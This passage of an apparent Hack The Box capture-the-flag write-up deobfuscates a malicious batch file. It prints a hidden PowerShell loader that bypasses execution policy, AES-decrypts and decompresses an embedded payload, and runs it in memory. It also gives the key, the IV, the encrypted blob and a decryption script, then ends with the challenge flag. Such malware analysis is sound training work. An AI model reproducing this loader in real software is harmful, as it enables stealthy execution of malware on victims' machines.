QfUo%%ekEoGMuERC%%aGQeJYSFDZ%%LODxmGMGqq%%KtmeCApwQn%%MAPkvbWKbC%%HlBVDpGgba%%ZNnASGtLCj%%IwOqmlYsbl%%JbFOJyRrBm%%TiuQnZmosP%%HkiSTlwlIs%%rofQqYizRu%%OckpqzbYcn%%YJZmDySMUy%%cGJiVEdEzp%%QNxYaFZSBu%%jxjvtHoTnR%%fvEtritbuM%%wxzMwkmbmY%%yZlAoExoOn%%pjrIjvjdGR%%mYyPXMYwYi%%vnHosfjdeN%%LfngwmfRCb%%bivuMABwCB%%GapFScCcpe%%lfYSggLrsL%%GhTXhmRnCR%%ENADhKPHot%%KdByPVjCnF%%PjdRUyhsyG%%kpzxAxFvLw%%rddZbDFvhl%'
for i in enc:
    if i != '%':
        tmp += i
enc = tmp
for i in range(0, len(ls), 1):
    if '=' in ls[i]:
        try:
            txt[ls[i][0:10]] = ls[i][11:]
            enc = enc.replace(ls[i][0:10], ls[i][11:])
        except:
            continue
print(enc)
```

Which, results in this script:

```powershell
copy C:WindowsSystem32\WindowsPowerShell
1.0powershell.exe /y execd exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine);foreach ($YiLGW in $eIfqq) { if ($YiLGW.StartsWith(':: ')) {  $VuGcO = $YiLGW.Substring(3); break; }; };$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO);$BacUA = New-Object System.Security.Cryptography.AesManaged;$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC;$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==');$Nlgap = $BacUA.CreateDecryptor();$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length);$Nlgap.Dispose();$BacUA.Dispose();$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm);$bTMLk = New-Object System.IO.MemoryStream;$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);$NVPbn.CopyTo($bTMLk);$NVPbn.Dispose();$mNKMr.Dispose();$bTMLk.Dispose();$uZOcm = $bTMLk.ToArray();$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm);$PtfdQ = $gDBNO.EntryPoint;$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```

TL;DR: Short analysis on the script's intention:

**Step 1:** Initiates AES decryptor using CBC mode, PKCS7 padding mode, key and IV given.

**Step 2:** Decrypts the encrypted payload (via "Window.bat") using the above settings.

**Step 3:** Decompresses GZip, then run the output as a binary - executables.

We can use this Python script below to get the binary that I have stated in step 3 above.

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import base64
import gzip


key = base64.b64decode('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
iv = base64.b64decode('2hn/J717js1MwdbbqMn7Lw==')

encrypted_message = base64.b64decode('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')
cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted_message = cipher.decrypt(encrypted_message)
decrypted_message = unpad(decrypted_message, 16)

decrypted_message = gzip.decompress(decrypted_message)

io = open('E:/Downloads/out', 'wb')
io.write(decrypted_message)
```

As a result, we get [this binary](https://drive.google.com/file/d/1RsyS6wtl-Dz1HM-0GPDnOYWSxnFMBGoi/view?usp=sharing).

I also double-checked using [Detect It Easy (DIE)](https://www.portablefreeware.com/index.php?id=2757) to see if it is a valid executable or not.



Voilà, we get the executable! I used [dnSpy](https://github.com/dnSpy/dnSpy) to read the code of the binary. Turned out, the flag is right there to be seen!


Flag is: **HTB{0neN0Te?_iT'5_4_tr4P!}**
